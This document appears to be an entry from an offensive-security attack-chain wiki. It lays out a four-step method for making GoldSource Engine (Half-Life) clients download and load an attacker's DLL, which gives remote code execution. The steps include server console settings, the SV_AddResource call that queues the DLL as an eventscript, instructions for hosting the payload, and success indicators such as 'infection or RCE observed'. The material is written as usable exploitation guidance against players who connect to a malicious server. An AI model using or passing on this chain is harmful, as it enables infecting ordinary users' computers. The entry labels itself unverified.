

---
tags:
  - rce
  - dll-injection
  - goldsource-engine
  - game-exploit
  - arbitrary-file-download
type: attack_chain
tools:
  - '[[tools/IDA-Pro]]'
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Windows
  - Game Engine
submitted: true
complexity: medium
created_at: '2024-01-01T00:00:00Z'
procedures:
  - '[[procedures/Configure-Server-for-HTTP-Downloads]]'
  - '[[procedures/Queue-Malicious-Resource-on-Server]]'
  - '[[procedures/Host-Malicious-DLL-File]]'
  - '[[procedures/Trigger-Client-Download-via-Connection]]'
step_count: 4
techniques:
  - '[[Exploitation for Client Execution]]'
  - '[[Remote File Copy]]'
updated_at: '2025-12-14T05:32:10.384Z'
description: >-
  Exploit a vulnerability in the GoldSource Engine's file downloading system to
  force clients to download and load arbitrary malicious DLLs, leading to remote
  code execution.
skill_level: intermediate
impact_level: high
id: 605499d7-237c-4e81-b3a5-bd28bd3e7ced
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploitation for Client Execution]]'
  - '[[Remote File Copy]]'
---
# GoldSource Engine Arbitrary DLL Download and Execution via Resource Bypass

Multi-stage attack chain demonstrating exploitation of the GoldSource Engine's weak file validation to upload and execute arbitrary DLLs on clients.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/IDA-Pro]]

### Target Environment

- GoldSource Engine build 7960 (e.g., Half-Life server and client)
- Windows platform for DLL loading
- Server admin access
- Malicious DLL prepared (e.g., TrackerUI.dll with payload)

### Initial Access Requirements

- Control over a GoldSource Engine game server
- Client players connecting to the server
- HTTP hosting capability for files

## Detailed Attack Procedures

### Step 1: Configure Server for HTTP Downloads
procedure: [[procedures/Configure-Server-for-HTTP-Downloads]]

**Objective**: Enable HTTP-based file transfers to bypass UDP Netchan validation checks.

**Instructions**: Set the sv_downloadurl console variable to an HTTP endpoint controlled by the attacker. For local testing, use http://127.0.0.1. This directs resource downloads over HTTP, avoiding IsSafeFileToDownload and CL_CheckFile restrictions.

```c++
// In server console or config
sv_downloadurl "http://127.0.0.1"
```

**Expected Output**: Server configuration updated; subsequent resource requests will fetch via HTTP.

**Success Indicators**:
- Console confirms sv_downloadurl setting
- No errors in server logs for HTTP redirection

### Step 2: Queue Malicious Resource on Server
procedure: [[procedures/Queue-Malicious-Resource-on-Server]]

**Objective**: Add the malicious DLL to the server's resource list as an eventscript to bypass full validation.

**Instructions**: In the SV_CreateResourceList function, invoke [[commands/SV_AddResource-Queue-Malicious-File]] with type t_eventscript, the DLL filename (e.g., bin\TrackerUI.dll), file size, RES_FATALIFMISSING flag, and no compression. This queues the file for client download without triggering strong checks.

```c++
SV_AddResource (t_eventscript, filename, FS_FileSize (filename), RES_FATALIFMISSING, 0);
```

**Expected Output**: Resource added to download queue; clients will request it upon connection.

**Success Indicators**:
- Resource list includes the DLL entry
- No validation errors in SV_CreateResourceList

### Step 3: Host Malicious DLL File
procedure: [[procedures/Host-Malicious-DLL-File]]

**Objective**: Place the malicious DLL on the HTTP server specified in sv_downloadurl for client retrieval.

**Instructions**: Upload the prepared DLL (e.g., bin\TrackerUI.dll containing remote code execution payload) to the HTTP endpoint. Ensure the path matches the queued filename to ensure seamless download.

**Expected Output**: File accessible via HTTP at the configured URL.

**Success Indicators**:
- HTTP GET request to the URL returns the DLL
- File integrity verified (e.g., via checksum)

### Step 4: Trigger Client Download via Connection
procedure: [[procedures/Trigger-Client-Download-via-Connection]]

**Objective**: Force the client to download and load the DLL, achieving execution on game restart.

**Instructions**: Have a victim client connect to the server. The connection triggers CL_BatchResourceRequest, downloading the queued resource via HTTP, placing it in the mod folder (bypassing checks), and loading it via client.dll's Initialize function upon restart.

**Expected Output**: DLL downloaded to client mod folder; loads on next game start, executing payload.

**Success Indicators**:
- Client logs show resource download
- DLL present in client filesystem post-connection
- Payload activates (e.g., infection or RCE observed)

## Attack Chain Summary

### Key Achievements

1. Bypassed file validation in CL_CheckFile and IsSafeFileToDownload
2. Forced arbitrary DLL download via HTTP sv_downloadurl
3. Achieved remote code execution on clients through DLL loading
4. Enabled potential mass infection in multiplayer scenarios

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploitation for Client Execution]] Exploitation for Client Execution
- [[Remote File Copy]] Ingress Tool Transfer

### MITRE ATT&CK Tactics

- [[Execution]] Execution

---

*Last updated: 2024-01-01T00:00:00Z*
